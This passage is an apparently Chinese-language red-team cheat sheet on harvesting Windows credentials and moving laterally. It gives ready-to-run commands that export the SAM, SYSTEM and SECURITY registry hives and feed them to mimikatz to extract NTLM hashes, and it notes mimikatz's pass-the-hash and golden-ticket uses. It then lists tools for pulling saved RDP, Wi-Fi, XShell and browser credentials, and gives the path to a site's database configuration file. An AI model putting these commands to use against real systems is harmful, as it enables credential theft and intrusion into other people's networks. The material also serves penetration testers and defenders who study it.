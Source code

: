 ### 注册表 + mimikatz本地读取

**（1）导出SAM和System文件**

 Win2000和XP需要先提到`SYSTEM`，Server 03开始直接可以reg save 也需要`系统管理员权限`

```bash
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```

**（2）mimikatz本地读取 NTML Hash**

> mimikatz可以从内存中提取明文编码、散列值、PIN和Kerberos票据；
>
> 还可以用来执行哈希传递、票据传递和构建黄金票据（Golden Ticket）。

```bash
#将导出的文件和mimikatz放到同一目录
mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive /security:security.hive" exit
```

# 横向获取主机权限

## 获取历史连接凭证

**获取RDP连接凭证（保存过的）**

https://github.com/AlessandroZ/LaZagne

```bash
lazagne.exe windows
#git密码也能获取到
```

**获取历史连接`wifi`密码**

https://github.com/wangle201210/wifiPass

**获取XShell连接凭证**

https://github.com/dzxs/Xdecrypt

**浏览器历史记录和凭据**

https://github.com/moonD4rk/HackBrowserData

## 翻阅配置文件

**数据库配置文件**

JSP站

```
网站目录/WEB-INF/classes/database.properties
```
